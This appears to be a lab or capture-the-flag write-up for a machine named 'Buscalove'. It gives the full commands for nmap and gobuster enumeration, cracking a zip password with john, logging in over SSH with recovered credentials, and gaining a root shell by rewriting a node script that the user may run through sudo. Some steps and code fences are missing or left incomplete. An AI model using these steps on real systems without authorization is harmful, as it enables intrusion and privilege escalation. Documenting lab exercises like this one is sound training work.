



# Buscalove

## Port Enumeration

We started our scan using the Nmap tool during the discovery phase. We found the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

## Analyzing Web page and the infraestructure.

First we need to know if exist some hide files or directories. We use gobuster tool

```ruby
gobuster dir -u http://172.18.0.2 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,js,txt
```

we find  following:


We obtain the directory called `wordpress` so we can find some clues.


If I inspect the 



```ruby
john --wordlist=rockyou.txt hash.txt
```

```ruby
secretitopicaron.zip/password.txt:password1:password.txt:secretitopicaron.zip::secretitopicaron.zip
1 password hash cracked, 0 left
```

Finally, we obtain the password, `password1` . Now we can try extract secretetitopicaron.zip.
if we extract the file, we obtain a password file.

```ruby
mario:laKontraseñAmasmalotaHdelbarrioH
```

These are possible credentials for the SSH service.


## Intrusion

If we use the new credentials, we can access the SSH service.


## Privilege Escalation

For privilege escalation, we will use the following command:

```ruby
sudo -l
``
We see the commands we can execute as root or other users using sudo: 

```ruby
$ sudo -l
Matching Defaults entries for mario on 0730eda13522:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 0730eda13522:
    (ALL) NOPASSWD: /usr/bin/node /home/mario/script.js

```

We can see that we can execute the script in /home/mario, so we can try to edit this file to spawn a shell with root privileges.


Therefore, we need to edit the script with the following code:

```ruby
const { execSync } = require('child_process');
execSync('/bin/bash', {stdio: 'inherit'});

```

Now, we are able to spawn a shell with root privileges if we execute the following:

```ruby
sudo /usr/bin/node /home/mario/script.js
```

